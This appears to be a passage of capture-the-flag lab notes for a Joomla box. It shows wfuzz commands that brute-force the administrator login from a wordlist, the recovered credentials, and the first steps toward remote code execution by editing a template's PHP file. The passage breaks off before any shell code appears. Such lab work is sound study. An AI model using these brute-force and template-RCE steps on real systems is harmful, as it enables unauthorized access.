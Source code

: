 #### Replaces anywhere FUZZ is in all caps with a line from wordlist

##### Not proxied through burp

	wfuzz -w cewl.out -c -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0a3ab5ecdcbc47a15beabc106e671004=1' -b '99fb082d992a92668ce87e5540bd20fa=96vrskpirtingik35nav7gh66m' http://10.129.171.59/administrator/index.php

```bash
-w cewl.out										// wordlist
-c												// color output  
-d 												// post data  
-b												// cookie  
-p												// proxy (burp)  
http://10.129.161.239/administrator/index.php	// target

You can exclude results with one of the following:  

--hl 114										// hide results using 114 lines.  
--hc 200										// hide results using 200 response code.

After getting a correct login, you get an authentication cookie which may then cause the remaining items in the wordlist to return success responses.
```

##### Proxied through burp

Note: If you're going to proxy wfuzz through burp, make sure the ip and port match the options!

Proxy => Options => Proxy Listeners => 127.0.0.1:8080

	wfuzz -w cewl.out -c -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0a3ab5ecdcbc47a15beabc106e671004=1' -b '99fb082d992a92668ce87e5540bd20fa=96vrskpirtingik35nav7gh66m' -p 127.0.0.1:8080 http://10.129.171.59/administrator/index.php

`000000187:   303        0 L      0 W        0 Ch        "Floris"`

### Login with credentials

```
http://10.129.171.59/administrator/index.php
Floris
Curling2018!
```

## Foothold

### Edit CMS template PHP to get RCE

1. Extensions => Templates => Templates => Protostar Details and Files
2. Edit /index.php

#### Create a superglobal variable which accepts arbitrary input

